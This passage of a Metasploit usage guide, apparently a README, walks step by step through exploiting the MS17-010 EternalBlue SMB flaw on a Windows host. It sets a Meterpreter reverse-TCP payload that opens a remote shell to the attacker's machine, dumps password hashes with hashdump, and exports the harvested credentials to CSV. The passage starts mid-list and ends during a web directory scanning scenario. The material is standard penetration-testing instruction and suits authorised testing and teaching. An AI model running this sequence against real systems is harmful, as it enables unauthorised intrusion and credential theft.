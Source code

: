 8. **Generate Report**:
   - Export results:
     ```bash
     services -o /tmp/services.csv
     creds -o /tmp/creds.csv
     ```

### Metasploit Pro (Optional)
- Access the web interface at `http://localhost:3790` after starting:
  ```bash
  msfpro
  ```
- Use automated workflows for scanning, exploitation, and reporting.

## Example Usage

### Scenario: Exploiting a Windows SMB Vulnerability
1. **Discover Targets**:
   ```bash
   msf6 > db_nmap -sV ip
   ```

2. **Select Exploit**:
   ```bash
   msf6 > search ms17_010
   msf6 > use exploit/windows/smb/ms17_010_eternalblue
   ```

3. **Configure Options**:
   ```bash
   msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS ip
   msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0
   msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
   ```

4. **Run Exploit**:
   ```bash
   msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
   ```

5. **Interact with Meterpreter**:
   ```bash
   meterpreter > sysinfo
   meterpreter > getuid
   meterpreter > hashdump
   ```

6. **Report Findings**:
   - Save credentials:
     ```bash
     msf6 > creds -o /tmp/exploit_creds.csv
     ```

### Scenario: Web Application Testing
1. **Scan for Web Vulnerabilities**:
   ```bash
   msf6 > use auxiliary/scanner/http/dir_scanner
   msf6 auxiliary(scanner/http/dir_scanner) > set RHOSTS ip
   msf6 auxiliary(scanner/http/dir_scanner) > set THREADS 10
   msf6 auxiliary(scanner/http/dir_scanner) > run
   ```
